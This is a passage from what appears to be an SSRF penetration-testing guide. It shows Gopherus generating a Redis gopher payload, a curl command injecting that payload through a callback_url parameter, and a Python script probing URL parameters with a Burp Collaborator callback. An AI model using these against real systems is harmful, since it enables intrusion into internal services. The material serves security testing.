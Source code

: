 ### **2. Gopherus**
```bash
# Generate gopher payload for Redis
gopherus --exploit redis

# Output: gopher://localhost:6379/_...payload...

# Use in SSRF
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=gopher://localhost:6379/..."
```

### **3. Custom Python Script**

```python
#!/usr/bin/env python3
import requests
import time

TARGET = "https://yourapp.example.com/api/inventory/1/M"
COLLABORATOR = "abc123.burpcollaborator.net"

# Test parameters
params_to_test = [
    "callback", "callback_url", "url", "webhook", 
    "redirect", "fetch", "proxy", "target", "dest"
]

for param in params_to_test:
    payload = f"http://{COLLABORATOR}/{param}"
    
    try:
        start = time.time()
        r = requests.get(TARGET, params={param: payload}, timeout=5)
        elapsed = time.time() - start
        
        print(f"[+] Parameter: {param}")
        print(f"    Status: {r.status_code}")
        print(f"    Time: {elapsed:.2f}s")
        print(f"    Size: {len(r.content)} bytes")
        
        # Check for SSRF indicators
        if elapsed > 3:
            print(f"    [!] Potential SSRF - Long response time")
        
        if "connection" in r.text.lower() or "timeout" in r.text.lower():
            print(f"    [!] Potential SSRF - Error message")
            
    except Exception as e:
        print(f"[-] Parameter: {param} - Error: {e}")
    
    print()
```

---